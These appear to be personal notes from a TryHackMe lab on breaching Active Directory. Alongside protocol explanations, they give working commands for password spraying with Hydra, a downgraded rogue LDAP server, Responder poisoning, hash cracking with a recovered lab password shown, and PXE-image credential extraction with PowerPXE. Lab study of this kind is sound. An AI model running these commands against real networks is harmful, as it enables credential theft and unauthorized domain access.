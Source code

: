 # Task 1: Introduction to AD Breaches
First step is to acquire an inistial set of AD credentials
**IP: 10.5.2.36**

Important to note: the /etc/resolv.conf file defines how the system uses DNS to resolve host names and IP addresses.

[[Configuring DNS]]

wasn't able to properly use the `resolvconf` function so I removed it and just added`search za.tryhackme.com` and `nameserver 10.200.4.101` to my `/etc/resolv.conf` file

# Task 2: OSINT and Phishing
OSINT is used to discover information that has been publicly disclosed
Phishing is scamming people 

websites to check your credentials: [HaveIBeenPwned](https://haveibeenpwned.com) and [DeHashed](https://www.dehashed.com/)

# Task 3: NTLM and NetNTLM
Net Technology LAN Manager (NTLM): suite of security protocols used for user authentication in AD.
NTLM uses a challenge-response-based schemed called NetNTLM.
**Application plays the role of a middle man between the client and AD as **
**NetNTLM can be exposed to the internet**
	mail servers that expose Outlook Web App login portals
	RDP service of a server exposed to the internet
	Exposed VPN endpoints integrated with AD
	Internet-facing web apps

We are using a script to bruteforce the NTLM authentication server
However, I will try using Hydra to bruteforce
`hydra -I -V -L ./usernames.txt -p 'Changeme123' ntlmauth.za.tryhackme.com http-get /`
	`-I` does not read a restore file if present
	`-V` verbose output
	`-L` list of usernames
	`-p` single password
	`http-get /` path to the login page
We get 4 password that are correct

we could've also used the python script provided:
`python3 ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com`

# Task 4: LDAP Bind Credentials
Lightweight Directory Access Protocol (LDAP): Another AD authentication method.
**With LDAP, the application directly verifies user credentials**
	application has a pair of AD credentials that is used to query LDAP and then verify AD user's credentials
LDAP is populer with third-party application that integrate with AD such as: Gitlab, Jenkins, Printers, VPNs

### LDAP Pass-Back Attacks
can be performed when we get access to a device's configuration where LDAP parameters are specified (credentials are usually kept default)

### Creating a rogue LDAP server
Install OpendLDAP
`sudo apt-get -y install slapd ldap-utils`
`sudo systemctl enable slapd`
Reconfigure LDAP server
`sudo dpkg-reconfigure -p low slapd`
`NO: do not skip server configuration`
`DNS name and Organization name: target domain`
`Provide any admin password`
`Select MDB as LDAP database`
`NO: ensure database is not removed when purged`
`YES: move old database files before a new one is created

We need to make our LDAP server vulnerable by downgrading the supported authentication mechanisms
Downgraded Code > olcSaslSecProps.ldif
`#olcSaslSecProps.ldif 
`dn: cn=config 
`replace: olcSaslSecProps`
`olcSaslSecProps: noanonymous,minssf=0,passcred`
	olcSaslSecProps: Specifies SASL security properties
	noanonymous: Disables anonymous login
	minssf: Specifies minimum acceptable security strength to 0

Use ldif file to patch LDAP server using the following:
`sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

Check LDAP server configuration:
`ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms


# Task 5: Authentication Relays
### Server Message Block
SMB allows workstation to communicate with a file share server
SMB governs everything from inter-network file-saring to remote administration (out of paper alert on your computer is from SMB protocol)
	1. Since NTLM Challenges can be intercepted, you can use offline cracking techniques to recover the password (slower than cracking NTLM hashes)
	2. Use rogue device to stage a man in the middle attack: relays SMB authentication between client and server providing an active authenticated session
### LLMNR, NBT-NS, and WPAD
Will use Responder to perform a Man-in-the-Middle attack by poisoning the responses during NetNTLM authentication.
Responder will attempt to poison any `Link-Local Multicast Name Resolution (LLMNR)`, `NetBIOS Name Server (NBT-NS)`, and `Web Proxy Auto-Discovery (WPAD)` requests that are detected.
	For large scale networks, these services allow hosts to perform their own DNS resolution
	1. Hosts sends out LLMNR requests to determine if host is on the same local network
	2. NBT-NS: precursor protocol to LLMNR
	3. WPAD: attempt to find a proxy for future HTTP connections
Because these protocols rely on broadcasted requests over a local network, our rogue device can also recieve these requests.
[[Responder]] will listen to these requests and attempt to send poisoned requests 
### Intercepting NetNTLM Challenge
use Responder to intercept the NetNTLM challenge and Response.
`responder -I [interface]`

after obtaining the hash, we will use hashcat to attempt to crack the hash
this is a NTLMv2-SSP Hash to we will use mode 5600
`hashcat -m 5600 hashfile passwordfile --force --show`
didn't work for me so I used john
`john --wordlist=passwordlist.txt hashfile --show`
FPassword1!      (svcFileCopy) 

##### Relaying the Challenge
We can try to relay the challenge instead of just capturing it directly (harder because we might not know the permissions of the account)
	requires that SMB signing is either disable or unenforced enabled. Upon performing a relay, we can make minor changes to the request to pass it along

# Task 6: Microsoft Deployment Toolkit

### MDT and SCCCM
`Microsoft Deployment Toolkit (MDT)` assists with automating the deployment of Microsoft OS. MDT allows the base OS images to be maintained and updated in a central location. MDT is integrated with `Microsoft's System Center Configuraiton Manager (SCCM)` which manages all updates for Microsoft applications, services, and os. **MDT is used for new deployments**. (allows IT team to preconfigure and manage boot images, you can plug in a network cable and everything happens automatically) **SCCM is the expansion to MDT.** SCM is in charge of patch management and allows IT to review updates and software installed.

### PXE Boot
Preboot Execution Environment (PXE): used to allow new devices connecting to the network to load an install the OS directly over internet. **PXE is hosted by MDT.** PXE is usually integrated with DHCP, when DHCP assigns a new IP lease, the host is allowed to request the PXE boot image.
![[PXEBootInfo.png]]

After this proccess is performed, client can use a TFTP connection to download the PXE boot image; this can be exploited:
	1. Inject a privilege escalation vector (like a local admin account) to gain admin acces to the OS
	2. Perform password scraping attacks to recover AD credentials used during install

### PXE Boot Image Retrieval
We ssh into the windows machine with the given credentials
`ssh thm@THMJMP1.za.tryhackme.com`

to ensure all users of the network can use SSH, we create a folder with our username and copy the powerpxe repo into the folder
`> mkdir Chamaru`
`> cd Chamaru`
`> copy powerpxe\ C:\Users\THM\Documents\Chamaru`

initiate TFTP transfer
`>tftp -i 10.200.4.202 GET "\TMP\x64{39....28}.bcd" conf.bcd`

After BCD file is recovered, we will use `powerpxe`(powershell script that automatically performs this attack) to read its contents. Powerpxe is not always reliable so we'll do it manually

Move on to powershell
`>powershell -ep bypass`

Use Get-WimFile function from powerpxe to locate the PXE Boot images from the BCD file we copied earlier
`>Import-Module .\PowerPXE.ps1`
`>$BCDFile = "conf.bcd"`
`>Get-WimFile -bcdFile $BCDFile`

download the windows image
`>tftp -i 10.200.4.202 Get "\Boot\x64\Images\LiteTouchPE_x64.win" pxeboot.wim`

recover credentials using a powerpxe function
`>Get-FindCredentials -WimFile pxeboot.wim`


